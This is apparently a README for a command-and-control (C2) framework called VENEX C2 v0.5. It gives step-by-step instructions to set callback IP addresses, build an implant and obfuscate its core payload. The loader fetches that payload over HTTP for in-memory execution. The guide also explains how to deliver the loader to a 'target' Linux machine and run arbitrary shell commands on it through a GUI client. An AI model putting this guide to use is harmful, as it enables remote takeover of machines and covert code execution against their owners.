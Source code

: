 # VENEX C2 v0.5 Installation Guide

This guide provides step-by-step instructions to set up and build the VENEX C2 project. The setup requires both a Windows environment for building most components and a Linux environment (e.g., WSL) for linking the final loader ELF binary.

## Prerequisites

- **Windows Environment**:
  - Download and install MinGW-w64 from [winlibs.com](https://winlibs.com/).
  - Extract the MinGW-w64 package. The `mingw64/bin/` directory contains the necessary tools (e.g., `mingw32-make.exe`) for compiling and assembling the project.
- **Linux Environment**:
  - Use WSL (Windows Subsystem for Linux), Ubuntu, Kali, or another Linux distribution.
  - Ensure the `ld` (GNU linker) tool is installed (it is included by default in most Linux distributions).
- **Python 3**:
  - Install Python 3 on Windows environment for running the HTTP server and client GUI.

## Build Instructions

### Step 1: Configure IP Addresses in Source Code
1. **Edit `core.asm`**:
   - Navigate to `gostInit/core/core.asm`.
   - Update the IP address constants at the top of the file. For example, for `127.0.0.1`:
     ```nasm
     IP1 equ 127
     IP2 equ 0
     IP3 equ 0
     IP4 equ -126  ; Calculate as IP4 = IP4 - IP1
     ```
   - Save the file.
2. **Edit `loader.asm`**:
   - Navigate to `gostInit/loader/loader.asm`.
   - Update the IP address and port at the top to match your server (e.g., `127.0.0.1:5000`).
   - Save the file.

### Step 2: Build the Project (Windows)
1. Open a windows terminal in the project root directory.
2. Run the following command to build the project:
   ```bash
   mingw64/bin/mingw32-make.exe all
   ```
3. The build process will create a `bin/` directory with the following structure:
   ```
   bin/
   ├── gostInit/
   │   ├── core.bin
   │   ├── droper.sh
   │   ├── loader.o
   ├── modules/
   │   ├── x.bin
   ├── server/
   │   ├── server.exe
   ├── tools/
   │   ├── encrypt.exe
   │   ├── encrypt.obj
   │   ├── hash.exe
   │   ├── obufcater.exe
   ```

### Step 3: Obfuscate `core.bin` (Windows)
Obfuscation is critical to prevent `core.bin` from crashing on the target system.
1. Navigate to `bin/tools/`.
2. Run the obfuscation command:
   ```bash
   ./obufcater.exe ../gostInit/core.bin
   ```
3. This will obfuscate `core.bin` in the `bin/gostInit/` directory.

### Step 4: Link the Loader (Linux)
The `loader.o` file in `bin/gostInit/` must be linked in a Linux environment to create the final ELF binary.
1. Open a terminal in WSL, Ubuntu, Kali, or another Linux distribution.
2. Navigate to the project root directory.
3. Run the following command to link `loader.o` (ignore warning):
   ```bash
   ld -N bin/gostInit/loader.o -o bin/gostInit/loader
   ```
4. This generates an ELF64 binary (`loader`) in `bin/gostInit/`, which can be executed on a Linux target.

## Usage Instructions

### Step 1: Start the C2 Server (Windows)
1. Navigate to `bin/server/`.
2. Run the server:
   ```bash
   ./server.exe
   ```
3. If prompted, allow public network access. The server will run on `0.0.0.0:7777`.

### Step 2: Start the HTTP Server (Windows or Linux)
The loader fetches `core.bin` from an HTTP server for in-memory execution.
1. Navigate to `bin/gostInit/`.
2. Start a simple HTTP server:
   ```bash
   python3 -m http.server 5000 --bind 0.0.0.0
   ```
   - Ensure Python 3 is installed.
   - The port (5000) must match the port specified in `loader.asm`. Adjust if necessary before building.

### Step 3: Start the C2 Client (Windows)
1. Navigate to `bin/C2Client/`.
2. Run the client:
   ```bash
   python3 client.py
   ```
3. A Tkinter-based GUI will appear.
4. In the GUI:
   - Enter the server IP (e.g., `127.0.0.1` for localhost) and port (e.g., `7777`).
   - Click **Connect**. A "connected" message will appear in the text box on the right.
5. Send the following command to create a listener on the server:
   ```
   AUTH:START_HTTP
   ```

### Step 4: Deploy the Loader on the Target (Linux)
1. Deliver the `loader` binary (from `bin/gostInit/`) to the target Linux machine (e.g., a Linux VM).
2. Ensure the target can connect to your server IP and port.
3. Execute the `loader` binary on the target. After a few seconds, the target should appear in the C2 client GUI.

### Step 5: Interact with the Target
1. In the C2 client GUI, right-click the target and select **Interact**.
2. You can now send commands to the target. The only supported module in v0.5 is `x`, which executes shell commands.
3. Example commands:
   ```bash
   x whoami
   x ls
   x ls -la
   x pwd
   ```
4. Command results will appear in the GUI after a few seconds.

## Notes
- Ensure the target machine can reach the HTTP server (`0.0.0.0:5000`) and the C2 server (`0.0.0.0:7777`).
- The `x` module executes shell commands on the target. Use the format `x <shell_command>` for commands.
- If you encounter issues, verify that:
  - The IP addresses and ports in `core.asm` and `loader.asm` are correct.
  - All required tools (`mingw32-make`, `ld`, Python 3) are installed.
  - The `core.bin` file is obfuscated before deployment.